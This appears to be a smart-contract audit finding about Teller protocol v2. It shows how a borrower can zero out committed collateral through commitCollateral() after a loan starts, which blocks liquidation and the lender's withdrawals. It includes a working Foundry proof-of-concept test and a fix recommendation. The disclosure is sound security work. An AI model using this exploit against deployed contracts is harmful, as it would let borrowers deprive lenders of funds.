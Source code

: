 0xbepresent

high

# Malicious borrower can block liquidations causing the lender to receive neither the settlement amount nor the collateral

## Summary

 Once the loan has started the borrower can modify the [_bidCollaterals](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L27) using the [commitCollateral()](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L117) function which causes that if the loan goes into default, the loan can not be liquidated and the lender can not receive neither the settlement amount nor the collateral.

## Vulnerability Detail

Once the loan has started the [commitCollateral()](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L117) is available to be called by anyone, allowing to modify the ```_bidCollaterals```. Then, if the loan goes into default, the [_withdraw()](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L393) will be reverted by "Withdraw amount cannot be zero" error.

Please see the next attack scenario:

1. The loan has started.
2. The loan is defaulted and the malicious borrower calls [commitCollateral()](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L117) and put the collateral amount to [zero](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L434).
3. The liquidator wants to liquidate via [liquidateLoanFull()](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/TellerV2.sol#L676) but is not possible because the function is reverted by "Withdraw amount cannot be zero" error.
4. The lender wants to grab the collateral via [withdraw()](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L250) functions but is still not possible because the funcstion is reverted by "Withdraw amount cannot be zero" error.

## Impact

The malicious borrower can block the liquidations and the lender collateral withdrawals causing the lender to receive neither the settlement amount nor the collateral. Additionally the borrower can gain time to repay his loan.

I created a test where the malicious borrower deny the liquidations and the collateral withdrawals. Test steps:

1. Create the collateral bid and the lender accept it
2. Assert the escrow has the borrower's collateral
3. Malicious borrower modifies to zero the collateral amount via the [commitCollateral()](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L117) function
4. Skip the time so the loan is defaulted
5. The liquidations are reverted by "Withdraw amount cannot be zero" error
6. The collateral withdrawals are reverted by "Withdraw amount cannot be zero" error

```solidity
File: TellerV2_Test.sol
451:     function test_MaliciousBorrowerCanBlockLiquidations() public {
452:         // Malicious borrower can block liquidations causing the lender
453:         // to receive neither the settlement amount nor the collateral
454:         // 1. Create the collateral bid and lender accept it
455:         // 2. Assert the escrow has the borrower's collateral
456:         // 3. Malicious borrower modifies to zero the collateral amount
457:         // 4. Skip the time so the loan is defaulted
458:         // 5. The liquidations are reverted by "Withdraw amount cannot be zero" error
459:         // 6. The collateral withdrawals are reverted by "Withdraw amount cannot be zero" error
460:         //
461:         //
462:         // 1. Create the collateral bid and lender accept it
463:         //
464:         // Submit bid as borrower
465:         uint256 bidId = submitCollateralBid();
466:         // Accept bid as lender
467:         acceptBid(bidId);
468:         //
469:         // 2. Assert the escrow has the borrower's collateral
470:         //
471:         // Get newly created escrow and test the creates escrow has the same bidId and collateral stored
472:         address escrowAddress = collateralManager._escrows(bidId);
473:         CollateralEscrowV1 escrow = CollateralEscrowV1(escrowAddress);
474:         uint256 storedBidId = escrow.getBid();
475:         assertEq(bidId, storedBidId, "Collateral escrow was not created");
476:         uint256 escrowBalance = wethMock.balanceOf(escrowAddress);
477:         assertEq(collateralAmount, escrowBalance, "Collateral was not stored");
478:         //
479:         // 3. Malicious borrower modifies to zero the collateral amount.
480:         //
481:         Collateral memory maliciousInfo;
482:         maliciousInfo._amount = 0; // <-- zero value
483:         maliciousInfo._tokenId = 0;
484:         maliciousInfo._collateralType = CollateralType.ERC20;
485:         maliciousInfo._collateralAddress = address(wethMock);
486:         collateralManager.commitCollateral(bidId, maliciousInfo);
487:         //
488:         // 4. Skip the time so the loan is defaulted
489:         //
490:         Payment memory amountOwed = tellerV2.calculateAmountOwed(bidId);
491:         vm.warp(30 days);
492:         //
493:         // 5. The liquidations are reverted by "Withdraw amount cannot be zero" error
494:         //
495:         IERC20(address(daiMock)).approve(address(tellerV2), amountOwed.principal + amountOwed.interest);
496:         vm.expectRevert(bytes("Withdraw amount cannot be zero"));
497:         tellerV2.liquidateLoanFull(bidId);
498:         //
499:         // 6. The collateral withdrawals are reverted by "Withdraw amount cannot be zero" error
500:         //
501:         vm.expectRevert(bytes("Withdraw amount cannot be zero"));
502:         collateralManager.withdraw(bidId);
503:     }
```

## Code Snippet

The [commitCollateral()](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L117) allows anyone to modify the collateral available.

```solidity
File: CollateralManager.sol
117:     function commitCollateral(
118:         uint256 _bidId,
119:         Collateral[] calldata _collateralInfo
120:     ) public returns (bool validation_) {
121:         address borrower = tellerV2.getLoanBorrower(_bidId);
122:         (validation_, ) = checkBalances(borrower, _collateralInfo);
123: 
124:         if (validation_) {
125:             for (uint256 i; i < _collateralInfo.length; i++) {
126:                 Collateral memory info = _collateralInfo[i];
127:                 _commitCollateral(_bidId, info);
128:             }
129:         }
130:     }
```

In the attack scenario, the collateral is set to zero causing the liquidations or collateral withdrawals transactions will be reverted by [amount zero error](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/escrow/CollateralEscrowV1.sol#L89).

```solidity
File: CollateralEscrowV1.sol
84:     function withdraw(
85:         address _collateralAddress,
86:         uint256 _amount,
87:         address _recipient
88:     ) external virtual onlyOwner {
89:         require(_amount > 0, "Withdraw amount cannot be zero");
90:         Collateral storage collateral = collateralBalances[_collateralAddress];
```

## Tool used

Manual review

## Recommendation

Don't allow collateral modifications once the loan has started.